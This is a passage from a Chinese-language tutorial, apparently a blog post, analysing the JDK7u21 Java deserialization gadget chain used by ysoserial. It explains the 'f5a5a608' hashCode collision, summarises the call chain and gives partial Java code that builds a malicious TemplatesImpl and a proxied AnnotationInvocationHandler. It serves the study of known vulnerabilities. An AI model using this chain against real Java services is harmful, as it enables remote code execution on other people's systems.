 经过测试，笔者发现虽然每次TemplatesImpl对象的hashCode方法执行结果都不同，但在同一次程序运行中，同一个TemplatesImpl对象的hashCode方法多次运行返回结果却是一样的！
因此，如果var3.getValue()与恶意TemplatesImpl为同一个TemplatesImpl对象，那么他们的hashCode也就完全相同，于是计算公式就变成了：
```java
127 * ((String)var3.getKey()).hashCode() ^ 恶意TemplatesImpl.hashCode() = 恶意TemplatesImpl.hashCode()
```
任何数，与0亦或，结果都是他自身，所以如果我们能让：127 * ((String)var3.getKey()).hashCode()为0，就可以完成HashMap的hashCode校验了。

P牛写了个爆破程序：
```java
public static void bruteHashCode() {
    for (long i = 0; i < 9999999999L; i++) {
        if (Long.toHexString(i).hashCode() == 0) {
            System.out.println("Found a value: " + i);
            break; 
        }
    }
}
```
结果为：`f5a5a608`，ysoserial用的就是这个。

# 汇总

根据上面的分析总结，我们可以总结出反序列化的链为：
```java
HashSet.readObject() -> HashMap.put()  // HastSet反序列化，发现hashCode相同，触发比较
    -> Templates.euqals() -> AnnotationInvocationHandler.invoke() -> equalsImpl() // equals被劫持，实际执行equalsImpl
        -> getMemberMethods()  // 获取Templates所有方法
        -> Method.invoke() => TemplatesImpl.getOutputProperties()  // 依次通过反射执行方法
```

按照这种思路，我们可以构造代码，首先创建一个HashSet，一个元素是恶意TemplatesImpl对象，另一个是被劫持的Templates。后者尤其需要注意一点：
> AnnotationInvocationHandler对象构造时，需要定义this.memberValue，我们需要创建一个HashMap给他，里面只有一组KV，即：key=f5a5a608，value=恶意TemplatesImpl对象。

然后序列化即可，怎么样，是不是很简单。

demo大致如下：
```java
// 构造恶意TemplatesImpl对象
TemplatesImpl tmpl = new TemplatesImpl();
Field bytecodes = TemplatesImpl.class.getDeclaredField("_bytecodes");
bytecodes.setAccessible(true);
byte[][] bytes = new byte[1][];
bytes[0] = readClassFileToByteArray("/Users/jijue/Documents/GitHub/JavaUnserial/JDK7U21/src/main/java/Exploit.class");
bytecodes.set(tmpl, bytes);
Field name = TemplatesImpl.class.getDeclaredField("_name");
name.setAccessible(true);
name.set(tmpl, "Exploit1");

// 构造memberValue
HashMap hashMap = new HashMap();
hashMap.put("f5a5a608",tmpl);

// 创建AnnotationInvocationHandler
Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> constructor = aClass.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
InvocationHandler aHandler = (InvocationHandler) constructor.newInstance(Templates.class,hashMap); // 设置this.type和this.memberValue
// 代理Templates
Templates templates = (Templates) Proxy.newProxyInstance(Override.class.getClassLoader(), new Class[]{Templates.class}, aHandler);

```